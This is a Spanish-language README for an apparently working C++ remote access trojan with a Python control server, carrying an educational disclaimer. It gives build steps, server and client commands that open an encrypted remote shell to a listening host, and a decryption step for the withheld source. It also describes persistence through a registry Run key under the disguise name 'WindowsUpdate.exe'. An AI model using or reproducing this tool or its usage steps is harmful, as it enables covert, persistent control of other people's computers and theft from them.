



# RAT C++

> [!WARNING]
> Aunque es algo super sencillo prefiero no tener directamente malware en mis repos de GitHub así que, por favor, descargue la `encryption 1.key` adjunta y ejecute el código para desencriptar:
> 
> `./direncrypt ./Client -d encryption\ 1.key`

> SHA original: `fb78bee1941d787ce88a531f444aab5d785e6d065d0db7c25acd6bf3d820c93a`

Si no quiere hacer el proceso hay una [demostración](#demostración) al final de este README.

---

Este proyecto es una implementación con fines educativos de un RAT que permite la ejecución remota de comandos en una máquina Windows desde un servidor en Linux. Toda la comunicación se encuentra cifrada utilizando **AES-128 (CBC)** para garantizar la confidencialidad.

El cliente está desarrollado en **C++** para Windows y el servidor en **Python**.

## Características

  - **Canal de Comunicación Cifrado:** Utiliza una clave precompartida AES-128 para cifrar todo el tráfico.
  - **Ejecución Remota de Comandos:** El servidor puede enviar cualquier comando de la shell de Windows al cliente y recibir la salida.
  - **Mecanismo de Persistencia:** El cliente puede instalarse en el sistema Windows para ejecutarse automáticamente en cada inicio de sesión.
  - **Cross-Compilation:** El cliente de Windows se compila fácilmente desde un entorno Linux usando `MinGW-w64`.

## Estructura del Proyecto

```
.
├── Client
│   ├── build.sh
│   ├── client.exe
│   ├── comm.cpp
│   ├── crypto.cpp
│   ├── exec.cpp
│   ├── include
│   │   ├── comm.h
│   │   ├── crypto.h
│   │   ├── exec.h
│   │   └── persist.h
│   ├── main.cpp
│   ├── Makefile
│   └── persist.cpp
├── direncrypt
├── keygen.py
└── Server
    ├── requirements.txt
    └── server.py
```

## Requisitos Previos

### Entorno de Compilación (Linux)

Para compilar el cliente (`client.exe`) necesitas un entorno Linux con el compilador cruzado **MinGW-w64**.

  - En **Debian/Ubuntu**, puedes instalarlo con:
    ```bash
    sudo apt update
    sudo apt install -y mingw-w64
    ```

### Entorno del Servidor (Python)

El servidor requiere Python 3 y algunas librerías externas.

1.  Navega al directorio del servidor:
    ```bash
    cd Server/
    ```
2.  Instala las dependencias usando el archivo `requirements.txt`:
    ```bash
    pip install -r requirements.txt
    ```

> Se recomienta usar un entorno virtual

## Tutorial de Uso

### Paso 1: Generar una Clave de Cifrado

El script `keygen.py` genera una clave AES-128 segura de 32 caracteres hexadecimales que necesitarán tanto el cliente como el servidor.

```bash
python3 keygen.py
```

**Salida de ejemplo:**

```
============================================================
  AES-128 Key Generator
============================================================

Generated Key: 4A18E9B6D8C02F5E7A3D9B4C1F0A6E2D

Length: 32 characters (16 bytes)
...
```

**Guarda esta clave, la necesitarás en los siguientes pasos.**

### Paso 2: Compilar el Cliente para Windows

Desde tu máquina Linux, navega al directorio del cliente y ejecuta el script de compilación.

```bash
cd Client/
./build.sh
```

Si la compilación es exitosa, se creará el archivo `client.exe` en el directorio `Client/`.

### Paso 3: Configurar el Entorno de Pruebas

Para probar la aplicación de forma segura, se recomienda usar una máquina virtual (VM) de Windows.

1.  **Monta la carpeta del proyecto** como un volumen compartido o una carpeta de red en tu VM de Windows. Esto te permitirá acceder al `client.exe` compilado desde dentro de la VM.
2.  Asegúrate de que la red de la VM esté configurada para que pueda comunicarse con la máquina anfitriona (Linux). Una configuración de red "Puente" (Bridged) o "NAT" suele funcionar.

> [!NOTE]
> La carpeta compartida no es necesaria pero yo lo hice así para el desarrollo

### Paso 4: Iniciar el Servidor

En tu máquina Linux, ejecuta el `server.py` especificando un puerto y la clave AES que generaste en el Paso 1.

```bash
# Formato: python3 Server/server.py <PUERTO> <CLAVE_AES>
python3 Server/server.py 4444 4A18E9B6D8C02F5E7A3D9B4C1F0A6E2D
```

El servidor comenzará a escuchar conexiones entrantes.

### Paso 5: Ejecutar el Cliente

Dentro de tu VM de Windows, abre una terminal (CMD o PowerShell) y ejecuta el cliente.

  - **IP:** La dirección IP de tu máquina anfitriona Linux.
  - **PUERTO:** El mismo puerto que usaste para el servidor.
  - **CLAVE\_AES:** La misma clave que usaste para el servidor.

<!-- end list -->

```powershell
# Formato: ./client.exe <IP_SERVIDOR> <PUERTO> <CLAVE_AES> [--persist | --nopersist]

.\client.exe 192.168.1.100 4444 4A18E9B6D8C02F5E7A3D9B4C1F0A6E2D --nopersist
```

Si todo es correcto, verás un mensaje de conexión en el servidor y aparecerá una shell interactiva `RAT >`.

## Argumentos del Cliente y Persistencia

El comportamiento del cliente se puede controlar con los siguientes argumentos:

  - `--persist`: Al usar esta opción, el cliente se copiará a sí mismo a la carpeta `%APPDATA%` y creará una clave en el registro de Windows para ejecutarse automáticamente cada vez que el usuario inicie sesión.
  - `--nopersist`: El cliente se ejecuta una sola vez y no realiza ninguna modificación en el sistema. Si no se especifica `--persist` ni `--nopersist`, este es el comportamiento por defecto.
  - `--appname <NOMBRE>`: Permite especificar un nombre para el archivo copiado y la entrada del registro cuando se usa la persistencia (el valor por defecto es `WindowsUpdate.exe`).

> [\!NOTE]
> Cuando la persistencia se instala, el programa guarda el comando completo (incluyendo IP, puerto y clave) en el registro para poder reconectarse automáticamente después de un reinicio.

## Comandos Remotos Especiales

Una vez conectado, además de los comandos estándar de Windows (`dir`, `whoami`, etc.), puedes usar los siguientes comandos desde la shell del servidor:

  - `persist_install`: Instala la persistencia en la máquina cliente.
  - `persist_remove`: Elimina la persistencia del cliente.
  - `persist_check`: Verifica si la persistencia está activa.
  - `exit` o `quit`: Cierra la conexión con el cliente.

> [!WARNING]
> Este software está diseñado únicamente con fines educativos. Su uso está destinado a entornos controlados y aislados, como máquinas virtuales. No utilices esta herramienta en sistemas para los que no tengas autorización explícita.

# Demostración

## Poniendo el servidor en escucha

<p align="center">
    
</p>

## Activando el RAT

<p align="center">
    
</p>

## Usando el RAT

<p align="center">
    
</p>
